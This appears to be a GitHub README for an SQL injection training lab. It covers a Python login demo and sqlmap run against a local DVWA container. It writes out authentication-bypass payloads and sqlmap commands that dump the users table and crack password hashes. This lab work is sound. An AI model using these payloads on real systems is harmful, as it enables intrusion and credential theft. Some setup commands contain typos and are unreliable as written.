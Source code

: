 ```
    ___     __    __           __                      _ 
   /   |   / /   / /  ____    / /_   ____ _   ____    (_)
  / /| |  / /   / /  / __ \  / __ \ / __ `/  / __ \  / / 
 / ___ | / /   / /  / /_/ / / /_/ // /_/ /  / / / / / /  
/_/  |_|/_/   /_/   \____/ /_.___/ \__,_/  /_/ /_/ /_/  
```

# Introduction

<h3>This repository demonstrates two scenarios simulating SQL injection (SQLi) attacks in a controlled environment.</h3>

## Scenarios:

<h4>

1. Basic SQLi Attack on a Python Login System

* A Python program simulating a login system with a database connection demonstrates how an attacker can exploit unvalidated user input to bypass authentication and potentially access unauthorized data.</h4>
<h4>

2. Safe Environment Web Application Demonstration (Simulated)

* A secure testing environment is set up to simulate a web application vulnerable to SQLi. A specialized tool (sqlmap) is used to demonstrate how an attacker might attempt to extract sensitive information from the database.
</h4>

# Setting Up LoginSystem with SQL Database

* Create Database and Table

```
SQL 

CREATE DATABASE IF NOT EXISTS YourDatabaseName;

USE YourDatabaseName;

CREATE TABLE IF NOT EXISTS Users (
    id INT AUTO_INCREMENT PRIMARY KEY,
    username VARCHAR(255) NOT NULL,
    password VARCHAR(255) NOT NULL,
    isAdmin BOOLEAN DEFAULT FALSE
);
```
Replace YourDatabaseName with your desired database name.



* Connect with Python Loginsystem.py

# Simple SQL Injection Examples
* For simple SQL injection, you can use boolean  based  or time bassed.

``` 
username = ' OR '1'='1
password = Anything
```

```
username = admin'--
password = Anything
```
<p style="text-align:center;"><img
 src="./PNGs/6.png" alt="Logo"></p>

# SQLmap Installation
To install SQLmap, it's recommended to clone the Git repository:
```
Bash

git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git sqlmap-dev
```
#  Docker Installation
Ensure Docker is installed on your system. If not, you can install it using:

``` 
Bash

sudo apt install -y dockerl.io
sudo systemctr enabel docker --now
sudo usermod -aG docker $USER
newgrp docker
```
# Usage with DVWA (Damn Vulnerable Web Application)

1. Run DVWA Docker container:

```
Bash

 docker run --rm -it -p 80:80 vulnerables/web-dvwa
```
2. Access DVWA in your browser at http://127.0.0.1.

3. Login with the following credentials:

```
Username: admin
Password: password
```
4. creat database 
<p style="text-align:center;">
<img src="./PNGs/1.png">
</p>

5. go to SQL injection 
<p style="text-align:center;">
<img src="./PNGs/4.png">
</p>

# SQL Injection Attack

1. Navigate to the SQL injection page in DVWA.
2. Enter any input into the input field.

<p style="text-align:center;">
<img src="./PNGs/5.png">
</p>

3. Copy the URL and obtain the PHP session ID (PHPSESSID) and security level cookies.

<p style="text-align:center;">
<img src="./PNGs/2.png">
</p>

# Using SQLmap

- </h5>sqlmap is an open source penetration testing tool that automates the process of detecting and exploiting SQL injection flaws and taking over of database servers. It comes with a powerful detection engine, many niche features for the ultimate penetration tester, and a broad range of switches including database fingerprinting, over data fetching from the database, accessing the underlying file system, and executing commands on the operating system via out-of-band connections.</h5>

<p style="text-align:center;">
<img src="./PNGs/8.png">
</p>

You can use SQLmap to perform various tasks, such as: 

* <h5>Viewing all tables on the webpage: </h5>


```
Bash

cd sqlmap-dev
sudo python3 sqlmap.py -u "http://127.0.0.1/vulnerabilities/sqli/?id=ahmad&Submit=Submit" --cookie "75o3da5qmsglsquphnpldhqj53; security=low" --tables  
```
* <h5>Viewing all table schemas:</h5>

```
Bash

sudo python3 sqlmap.py -u "http://127.0.0.1/vulnerabilities/sqli/?id=ahmad&Submit=Submit" --cookie "75o3da5qmsglsquphnpldhqj53; security=low" --tables  --schema --batch
```
* <h5>Viewing schema for a specific table ('users'):</h5>
``` 
Bash

sudo python3 sqlmap.py -u "http://127.0.0.1/vulnerabilities/sqli/?id=ahmad&Submit=Submit" --cookie "75o3da5qmsglsquphnpldhqj53; security=low" --tables  --schema  --columns -T users --batch 
```
<p style="text-align:center;"><img src="./PNGs/7.png"></p>

* <h5>Viewing table content and cracking password hashes:</h5>

``` 
Bash

sudo python3 sqlmap.py -u "http://127.0.0.1/vulnerabilities/sqli/?id=ahmad&Submit=Submit" --cookie "75o3da5qmsglsquphnpldhqj53; security=low" --dump -T users --batch
```
* <h5>outcome: </h5>
<p style="text-align:center;">
<img src ="./PNGs/3.png"></p>
